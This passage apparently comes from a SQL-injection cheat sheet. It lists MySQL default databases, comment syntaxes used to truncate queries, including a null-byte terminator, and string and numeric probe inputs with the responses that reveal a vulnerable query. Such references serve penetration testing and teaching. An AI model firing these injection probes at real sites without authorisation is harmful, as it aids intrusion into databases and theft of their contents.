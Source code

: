 
## MYSQL Default Databases

| Name               | Description              |
|--------------------|--------------------------|
| mysql              | Requires root privileges |
| information_schema | Available from version 5 and higher |
	

## MYSQL Comments

MySQL comments are annotations in SQL code that are ignored by the MySQL server during execution.

| Type                       | Description                       |
|----------------------------|-----------------------------------|
| `#`                        | Hash comment                      |
| `/* MYSQL Comment */`      | C-style comment                   |
| `/*! MYSQL Special SQL */` | Special SQL                       |
| `/*!32302 10*/`            | Comment for MYSQL version 3.23.02 |
| `--`                       | SQL comment                       |
| `;%00`                     | Nullbyte                          |
| \`                         | Backtick                          |


## MYSQL Testing Injection

* **Strings**: Query like `SELECT * FROM Table WHERE id = 'FUZZ';`
    ```
    '	False
    ''	True
    "	False
    ""	True
    \	False
    \\	True
    ```

* **Numeric**: Query like `SELECT * FROM Table WHERE id = FUZZ;`
    ```ps1
    AND 1	    True
    AND 0	    False
    AND true	True
    AND false	False
    1-false	    Returns 1 if vulnerable
    1-true	    Returns 0 if vulnerable
    1*56	    Returns 56 if vulnerable
    1*56	    Returns 1 if not vulnerable
    ```
